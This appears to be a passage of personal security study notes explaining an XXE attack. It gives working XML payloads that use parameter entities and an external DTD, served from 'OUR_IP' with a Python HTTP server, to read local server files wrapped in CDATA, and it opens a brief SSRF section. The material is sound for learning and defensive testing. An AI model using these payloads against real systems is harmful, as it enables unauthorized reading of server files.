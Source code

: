 - **THIS DOESNT WORK**.
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///path/to/file">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

However, this won't work because because internal and external references cannot be joined together.
- The solution is to use parameter entities, [[XML#XML Parameter Entity]], which are special entities that need to be used within a DTD.

What happens is: 
- The external DTD is fetched and processed by the [[XML]] parser.
- The parameter entities defined in this external DTD (e.g., `%begin;`, `%file;`, and `%end;`) are treated as external entities.
- The parser allows these entities to be combined into a single entity (e.g., `&joined;`), which contains the complete data (with the content wrapped in a CDATA section).

**To execute this attack, follow these steps:**
1. Define the DTD that will be referenced that joins the entities together:
```xml
<!-- file is called xxe.dtd -->

<!ENTITY joined "%begin;%file;%end;">
```

2. This file needs to be referenced, so we need to host it on our local machine and serve it, which can be done using a simple python server.
```bash
python3 -m http.server 8000
```
- needs to be done in the directory with the `xxe.dtd` file.

3. Now to reference the external DTD:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///path/to/file">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>

<!-- Somewhere in the application -->
<>&joined;<>
```

---
### [[SSRF]] 

Similar to the Retrieving Files attack, but instead of specifying a path, we specify a URL we want the server to access.
